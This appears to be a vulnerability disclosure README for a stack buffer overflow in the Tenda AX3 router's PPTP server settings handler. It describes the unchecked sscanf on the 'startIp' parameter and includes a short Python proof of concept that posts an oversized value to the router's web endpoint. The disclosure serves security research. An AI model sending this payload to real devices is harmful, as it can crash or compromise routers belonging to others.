

# Tenda Router AX3 Vulnerability

This vulnerability lies in the `/goform/SetPptpServerCfg` page which influences the lastest version of Tenda Router AX3. ([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html))

# Vulnerability description

There is a stack buffer overflow vulnerability in the `formSetPPTPServer` function.

The `v10` variable is directly retrieved from the http request parameter `startIp`.

Then `v10` will be splice to stack by function sscanf without any security check,which causes stack overflow.



So by POSTing the page `/goform/SetPptpServerCfg` with proper `startIp`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetPptpServerCfg"

startIp = "a" * 1024

r = requests.post(url, data={'startIp': startIp})
print(r.content)
```

# Timeline

- 2022.01.17 report to CVE & CNVD